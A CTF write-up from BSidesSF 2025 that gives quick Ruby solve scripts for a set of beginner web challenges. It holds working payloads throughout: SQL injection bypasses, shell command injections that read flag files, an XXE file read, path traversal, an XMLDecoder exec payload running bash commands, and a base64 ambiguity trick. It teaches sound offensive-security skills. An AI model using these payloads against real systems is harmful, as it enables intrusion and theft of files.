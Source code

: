 ```yaml
---
title: 'BSidesSF 2025: Miscellaneous challenges'
author: ron
layout: post
categories:
- bsidessf-2025
- ctfs
permalink: "/2025/bsidessf-2025-miscellaneous-challenges"
date: '2025-04-27T15:59:15-07:00'

---
```


I wrote a wholllle pile of 101 web challenges this year, which are ultimately going to be adapted for a workshop I'm giving at NorthSec in Montreal next month.

I'm not going to spend a ton of time on them, I'll just give the solutions quickly.

As usual, you can find the code and complete solutions on our [GitHub repo](https://github.com/BSidesSF/ctf-2025-release)!

And, if these are particularly interesting to you, come see me in Montreal!

<!--more-->

## `hidden-reports` (sqli login)

Hidden-reports is classic SQL injection in a login form `' or '1'='1`:

```ruby
result = HTTParty.post(get_url(), body: { 'passphrase' => "test' or '1'='1" })
```

## `detector` (shell injection)

`detector` is shell command injection:

```ruby
result = HTTParty.get("#{ get_url() }/detect-dragon.php?ip=1.2.3.4; cat /app/dragon-detector-ai;")
```

## `detector-2` (shell injection)

`detector-2` is a slightly different flavour of shell command injection:

```ruby
result = HTTParty.get("#{ get_url() }/detect-dragon.php?ip=1.2.3.4$(cat /app/dragon-detector-ai)")
```

## `evidence` (XXE)

`evidence` is XML eXternal Entities - XXE:

```ruby
XXE = <<~XXE
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE root [
    <!ENTITY xxe SYSTEM "file:///flag.txt">
  ]>
  <dragons>
    <dragon>
      <name>Smaug</name>
      <proof>&xxe;</proof>
    </dragon>
  </dragons>
XXE

EXPLOIT_FILE = File.join(__dir__, 'payload.xml')
File.write(EXPLOIT_FILE, XXE)
result = HTTParty.post(
  get_url(),
  body: {
    dragon_file: File.open(EXPLOIT_FILE, 'r')
  },
  headers: {
    'Content-Type' => 'multipart/form-data'
  }
)
```

## `pathing` (path traversal)

`pathing` is directory traversal in the URL (if you're using `curl`, you'll need `--path-as-is`, and other tools and browsers get confused):

```ruby
PATH = "#{get_url()}/../../../../../../flag.txt"
puts "Requesting #{ PATH }..."
out = ::HTTParty.get(PATH)
```

## `sighting` (path traversal)

`sighting` is another flavour of directory traversal, this time in an argument:

```ruby
PATH = "#{get_url()}picture.php?file=../../../../../../flag.txt"
puts "Requesting #{ PATH }..."
out = ::HTTParty.get(PATH)
```

## `taxonomy` (search SQLi)

`taxonomy` is classic SQL injection in a `WHERE` string - essentially `' or 1=1)--`:

```ruby
result = HTTParty.get("#{ get_url() }/?search=Nano%27%20OR%201=1)%20--")
```

## `dating` (XMLDecoder)

`dating` is insecure `XMLDecoder` usage - you can basically copy/paste reverse shell code.

My solution is a bit complicated because I want to be able to do it without a reverse shell:

```ruby
TEMP = UUID.generate.to_s
COPY = <<~COPY
  <?xml version="1.0" encoding="UTF-8"?>
  <java version="1.8.0_102" class="java.beans.XMLDecoder">
   <object class="java.lang.Runtime" method="getRuntime">
        <void method="exec">
        <array class="java.lang.String" length="3">
            <void index="0">
                <string>/bin/bash</string>
            </void>
            <void index="1">
                <string>-c</string>
            </void>
            <void index="2">
                <string>cp /flag.txt /usr/local/tomcat/webapps/ROOT/#{ TEMP }.txt</string>
            </void>
        </array>
        </void>
   </object>
  </java>
COPY
DELETE = <<~DELETE
  <?xml version="1.0" encoding="UTF-8"?>
  <java version="1.8.0_102" class="java.beans.XMLDecoder">
   <object class="java.lang.Runtime" method="getRuntime">
        <void method="exec">
        <array class="java.lang.String" length="3">
            <void index="0">
                <string>/bin/bash</string>
            </void>
            <void index="1">
                <string>-c</string>
            </void>
            <void index="2">
                <string>rm -f /usr/local/tomcat/webapps/ROOT/#{ TEMP }.txt</string>
            </void>
        </array>
        </void>
   </object>
  </java>
DELETE
# Move the file
HTTParty.post("#{ get_url() }/ProfileServlet", body: COPY)
# Get the file
result = HTTParty.get("#{ get_url() }/#{ TEMP }.txt")
# Delete the file
HTTParty.post("#{ get_url() }/ProfileServlet", body: DELETE)
```

## `hoard` (shell injection)

`hoard` is another shell command injection issue, this time in a JSON payload:

```ruby
BODY = {
  'hoardType' => 'artifact',
  'gold' => '123',
  'gems' => '123',
  'artifacts' => "123';cat /flag.txt;echo '",
}.to_json
result = HTTParty.post("#{ get_url() }/backend.php", body: BODY)
```

## `extinction` (ambiguous base64)

And finally, `extinction` is a challenge based on ambiguous base64 - depending on the length of the string, the last bit or two can be changed without changing the value it decodes to (this is based on my poor attempt to write Suricata rules at work):

```ruby
result = HTTParty.post("#{ get_url() }/index.php?encoded_creds=#{ Base64.strict_encode64('admin:admin') }")
if result.include?('CTF') || !result.include?('AHA')
  puts "Something went wrong: the 'bad' request wasn't correctly handled!"
  exit(1)
end
result = HTTParty.post("#{ get_url() }/index.php?encoded_creds=YWRtaW46YWRtaW5=")
```
